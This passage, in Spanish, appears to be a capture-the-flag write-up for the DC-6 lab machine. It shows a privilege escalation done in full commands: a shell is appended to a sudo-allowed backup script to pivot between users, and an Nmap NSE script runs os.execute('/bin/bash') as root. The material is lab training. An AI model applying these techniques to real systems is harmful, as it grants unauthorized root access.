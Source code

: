 ```bash
ssh graham@10.0.1.17
```
Con esto, hemos conseguido acceso a la máquina


# Privilege escalation
Para obtener acceso como root, vamos a ejecutar sudo -l para ver los permisos del usuario
```bash
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```
Con esto podemos ver que Graham puede ejecutar backup.sh como Jens sin necesidad de contraseña
```bash
graham@dc-6:/home/jens$ cat backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
```
Después de leer el script, hemos decidido agregar /bin/bash al final del archivo
```bash
graham@dc-6:/home/jens$ cat backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
/bin/bash
```
De esta forma, al ejecutar el archivo como usuario Jens, obtendremos una shell con ese mismo usuario
```bash
graham@dc-6:/home/jens$ sudo -u jens ./backups.sh 
tar: Removing leading `/' from member names
```
Ahora, como usuario Jens, verificamos los permisos que tiene este usuario con sudo -l
```bash
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```
Parece que Jens puede ejecutar Nmap como root. Para escalar privilegios a root, vamos a generar un script de Nmap para acceder a la shell
```bash
echo "os.execute('/bin/bash')" > /tmp/root.nse
```
Finalmente ejecutamos Nmap con el script que hemos creado.
```bash
sudo nmap --script=/tmp/root.nse
```
Para mejorar la estabilidad de la terminal, podemos usar el siguiente comando:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Ahora que hemos obtenido acceso como root, solo nos queda localizar la flag, la cual la encontraremos en /root/theflag.txt.
```bash
root@dc-6:~# cat theflag.txt


Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
```